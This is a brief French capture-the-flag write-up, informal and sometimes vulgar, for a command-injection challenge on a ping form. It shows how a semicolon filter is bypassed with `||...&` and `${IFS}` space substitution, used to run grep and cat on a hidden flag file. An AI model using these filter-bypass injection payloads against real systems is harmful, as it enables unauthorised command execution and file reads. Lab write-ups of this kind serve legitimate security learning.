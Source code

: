 # Writeup
Pas trop détaillé psq nik la poliss

## Recon
Pareil que le précédent :
```bash
ping -c 1 $ip
```

On teste la payload `;ls;` ça passe pas, **cheh** !
Faut tester des trucs là. `;` est filtré, comment faire pour injecter du code ?
```bash
||ls&
```
Permet de bypass le filtre c'est terrible.

## Exploit
Avec la payload trouvée juste avant on trouve les sous-dossiers :
```
.secret/
├── 1
│   ├── 1
│   │   ├── 1
│   │   ├── 2
│   │   └── 3
│   ├── 2
│   │   ├── 1
│   │   ├── 2
│   │   └── 3
│   └── 3
│       ├── 1
│       ├── 2
│       └── 3
├── 2
│   ├── 1
│   │   ├── 1
│   │   ├── 2
│   │   └── 3
│   │       └── flag.txt
│   ├── 2
│   │   ├── 1
│   │   ├── 2
│   │   └── 3
│   └── 3
│       ├── 1
│       ├── 2
│       └── 3
└── 3
    ├── 1
    │   ├── 1
    │   ├── 2
    │   └── 3
    ├── 2
    │   ├── 1
    │   ├── 2
    │   └── 3
    └── 3
        ├── 1
        ├── 2
        └── 3
```

C'est vraiment un enculé celui qui a fait ce chall. Pour trouver le flag simplement :
```bash
||grep${IFS}-r${IFS}FORMAT_DU_FLAG&
#output :
.secret/2/1/3/flag.txt

||cat${IFS}.secret/2/1/3/flag.txt&
```


## Résumé
```bash
||cat${IFS}.secret/2/1/3/flag.txt&
```
